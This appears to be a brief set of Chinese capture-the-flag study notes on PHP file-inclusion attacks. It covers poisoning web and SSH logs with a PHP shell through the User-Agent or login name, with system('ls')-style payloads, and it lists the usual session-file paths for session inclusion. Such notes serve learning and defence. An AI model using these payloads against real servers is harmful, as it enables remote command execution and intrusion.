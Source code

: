 ## **日志包含**
已知url上有文件包含
log日志记录ua，参考web日志路径
修改ua为phpshell,包含日志log文件
修改UA为：
1=system("ls");
1=system("tac fl0g.php");


^
ssh登录日志文件
把登录名改php的shell
包含ssh登录日志

^
## **临时文件包含**
php的session保存在一个目录下
session内容可控时
文件包含session文件

php的session常见存储位置，里面为键值对 字符
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie会存储
如
```
/tmp/sess_99se2w33sddcs
```

